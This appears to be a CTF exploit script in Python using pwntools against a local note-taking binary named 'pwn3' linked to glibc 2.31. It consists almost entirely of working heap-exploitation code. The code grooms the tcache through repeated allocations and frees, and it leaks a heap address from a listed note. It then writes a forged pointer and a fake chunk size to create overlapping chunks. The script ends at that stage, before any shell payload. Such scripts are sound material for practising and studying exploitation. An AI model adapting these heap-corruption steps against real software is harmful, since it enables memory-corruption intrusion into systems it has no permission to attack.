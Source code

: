 ```python
from pwn import *

name = "pwn3"

elf = ELF(name)

libc = ELF("./libc-2.31-dbg.so")
# context(arch='amd64', terminal = ['konsole', '-e', 'zsh', '-c'], log_level = 'debug')
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
p = process(["./ld-2.31-dbg.so", "./pwn3"], env = {"LD_PRELOAD":"./libc-2.31-dbg.so"})
# p = elf.process()

# p = process(["/glibc/2.23/64/lib/ld-2.23.so", "./pwn3"], env = {"LD_PRELOAD":"/glibc/2.23/64/lib/ld-2.23.so"})
# gdb.attach(p, gdbscript = "b*system\nset follow-fork-mode child\nc\n")
# gdb.attach(p)
# upper bound: 10 notes
# max size: 0x78
def add_note(size, content, desc):
    p.sendlineafter(b"> \n", b"1")
    p.sendlineafter(b"Size: ", str(size))
    p.sendlineafter(b"Note: ", content)
    p.sendlineafter(b"note: ", desc)
    p.recvuntil(b"Done!")

def list_note():
    p.sendlineafter(b"> \n", b"2")
    # print(p.recvuntil(b"\n\n"))

def del_note(idx):
    p.sendlineafter(b"> \n", b"3")
    p.sendlineafter("Index: ", str(idx))

for i in range(2):
    add_note(0x78, cyclic(4), str(i) * 4)

for i in range(2):
    del_note(i)

for i in range(10):
    add_note(0x78, str(i) * 4, str(i) * 4)

for i in reversed(range(10)):
    del_note(i)

add_note(0x78, "0000", cyclic(48))

list_note()
p.recvuntil(b"1:\n  Data: ")

addr = u64(p.recvuntil(b"\n", drop = True).ljust(8, b"\x00"))
log.info("addr=>0x{:x}".format(addr))
# addr of 2
del_note(1)
add_note(0x78, p64(addr-0xe0) + b'\x00' * 16 + b'\x61\x04', cyclic(48-1)) # 1

for i in range(2, 10):
    add_note(0x78, str(i) * 4, str(i) * 4)
    
del_note(9)
add_note(0x50, "9999", cyclic(48-1))
list_note()
```